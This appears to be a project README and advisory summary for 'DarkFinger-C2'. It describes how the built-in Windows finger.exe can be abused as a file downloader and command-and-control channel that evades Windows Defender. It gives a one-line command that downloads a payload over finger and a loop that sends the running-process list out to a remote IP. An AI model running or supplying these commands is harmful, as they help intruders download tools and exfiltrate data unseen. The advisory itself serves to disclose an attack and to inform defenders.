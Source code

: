 # DarkFinger-C2
Windows TCPIP Finger Command / C2 Channel and Bypassing Security Software

http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

Microsoft Windows TCPIP Finger Command "finger.exe" that ships with the OS, can be used as a file downloader and makeshift C2 channel.
Legitimate use of Windows Finger Command is to send Finger Protocol queries to remote Finger daemons to retrieve user information.
However, the finger client can also save the remote server response to disk using the command line redirection operator ">".

Intruders who compromise a computer may find it is locked down and "unknown" applications may be unable to download programs or tools.
By using built-in native Windows programs, its possible they may be whitelisted by installed security programs and allowed to download files.

Redteams and such using LOL methods have made use of "Certutil.exe", native Windows program for downloading files. However, Certutil.exe is
recently blocked by Windows Defender Antivirus and logged as event "Trojan:Win32/Ceprolad.A" when it encounters http/https://.

Therefore, using Windows finger we can bypass current Windows Defender security restrictions to download tools, send commands and exfil data.
The Finger protocol as a C2 channel part works by abusing the "user" token of the FINGER Query protocol "user@host". C2 commands masked as
finger queries can download files and or exfil data without Windows Defender interference.

Download files:
C:\> finger <C2-Command>@HOST > Malwr.txt

Exfil running processes:
C:\> for /f "tokens=1" %i in ('tasklist') do finger %i@192.168.1.21

PoC
https://www.youtube.com/watch?v=cfbwS6zH7ks


